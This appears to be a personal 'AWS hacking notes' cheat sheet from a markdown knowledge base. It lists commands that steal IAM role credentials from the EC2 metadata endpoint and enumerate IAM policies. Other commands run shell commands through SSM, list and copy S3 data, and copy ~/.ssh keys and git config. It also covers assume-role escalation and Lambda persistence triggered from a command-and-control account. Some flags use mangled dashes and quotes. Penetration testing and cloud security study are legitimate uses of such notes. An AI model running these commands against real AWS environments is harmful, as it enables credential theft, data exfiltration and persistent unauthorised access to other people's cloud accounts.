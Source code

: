 ```yaml
---
is_a: "[[group]]"
topics: "[[note]]"
topics: "[[hacking]]"
---
```

# Notes
AWS hacking notes

## Stealing AWS token from metadata service
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
* Copy the role name returned
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

or
```
export ROLE_NAME=`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/`
echo "Instance role is ${ROLE_NAME}"
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/${ROLE_NAME}/
```

### aws cli
```
aws sts get-session-token
```
won’t work if you’re already using session creds

## Finding out who you are
Pull the instance profile from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/info/
```
* Copy the InstanceProfileArn field from the result

Pull the role name from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

AWS command line
```
aws sts get-caller-identity
```

## Finding out what you have access to
Get Role. Shows trust relationships.
```
aws iam get-role --role-name ${ROLE}
```

List managed policies attached to role
```
aws iam list-attached-role-policies --role-name $ROLE
```

Get Inline Role Names
```
aws iam list-role-policies --role-name $ROLE
```

Iterate over all inline policies
```
for POLICYNAME in `aws iam list-role-policies --role-name $ROLE | jq -r '.PolicyNames[]'`; do aws iam get-role-policy --role-name $ROLE --policy-name $POLICYNAME; done
```
Retrieves the specified inline policy document that is embedded with the specified IAM role.
```
aws iam get-role-policy --role-name <value>
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>     (gets roles and policies that this instance profile has)

## Escalation (using assume role)
Pulling interesting metadata
curl  http://169.254.169.254/latest/meta-data/
curl  http://169.254.169.254/latest/user-data
curl  http://169.254.169.254/latest/dynamic/
curl  http://169.254.169.254/latest/meta-data/iam/info/
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance_profile_name>

Running aws-configure
```
mkdir ~/.aws
cat <<EOF >~.awsconfig
[default]
output = json
region = us-east-1
EOF
```

## Aws CLI fun
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>
aws iam get-role —role-name jslave
aws iam list-account-aliases
aws ec2 describe-security-groups —group-names ‘Default’ —query ‘SecurityGroups[0].OwnerId’ —output text               (cheat for getting current account id)
aws iam list-roles
aws iam list-attached-role-policies —role-name <role_name>
aws iam list-role-policies —-role-name <role_name>
aws iam get-role-policy —-role-name <role_name> —policy-name <policy_name>
```

Aws CLI get current user (one of these may work)
```
aws iam get-user
aws sts get-caller-identity
```
AWS SSM Run commands
```
aws ssm send-command --instance-ids "i-0ddd4588e3ab7bd99" --document-name "AWS-RunShellScript" --comment "IP config" --parameters commands=ifconfig --output text
```

Getting account info
Get-caller-identity gives the account number. List-account-aliases gives alias.
```
aws sts get-caller-identity
aws iam list-account-aliases
```

Sign in URL
https://Your_AWS_Account_ID.signin.aws.amazon.com/console/
https://Your_Alias.signin.aws.amazon.com/console/


AWS S3 CLI

```
aws s3 ls
aws s3 ls s3://bucket/dir/
aws s3 cp s3://bucket/dir/file .
```

AWS codecommit
```
aws codecommit list-repositories —region us-east-1
```
Things to work on
```
aws sts get-session-token
```

Testing git access

```
cat ~/.gitconfig
find / | grep ‘.git/config’        (finding any local git repos)
cat ….git/config               (finding where the git repos are hosted)
git config --list
```
- there does not seem to be a way to get a list of all repos. bitbucket has an api that will list them if you have a username/password (and not just an ssh key)

Stealing git access

- copy ~gitconfig and all the files in ~.ssh

SSRF notes

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

# Assume Role
If a given role can assume other roles, this is how to switch
aws sts assume-role --role-arn "arn:aws:iam::123456789012:role/example-role" --role-session-name AWSCLI-Session

# Burp AWS Scopes
^.*\.amazonaws\.com$
^.*\.cloudfront\.net$

## Config file format
```
{
    "enabled":true,
    "host":"^.*\\.amazonaws\\.com$",
    "protocol":"any"
},
{
    "enabled":true,
    "host":"^.*\\.cloudfront\\.net$",
    "protocol":"any"
}
```

# Cloudformation
## Creating user via cloudformation
```
aws cloudformation create-stack --stack-name myuser --template-body file://user.yaml --capabilities CAPABILITY_NAMED_IAM
```

## Persistence
### Lambda
* On compromise (instance or lambda)
* Create lambda
	* Using existing role
	* Set to trigger on SNS messages from C&C in another account.
[AWS SNS to Lambda Cross Account Setup - Shogan.tech](https://www.shogan.co.uk/aws/aws-sns-to-lambda-cross-account-setup/)

# References
* [AWS - Pentest Book](https://pentestbook.six2dez.com/enumeration/cloud/aws)
* [GitHub - RhinoSecurityLabs/pacu: The AWS exploitation framework, designed for testing the security of Amazon Web Services environments.](https://github.com/RhinoSecurityLabs/pacu)
- https://github.com/DataDog/stratus-red-team - aws attack tool
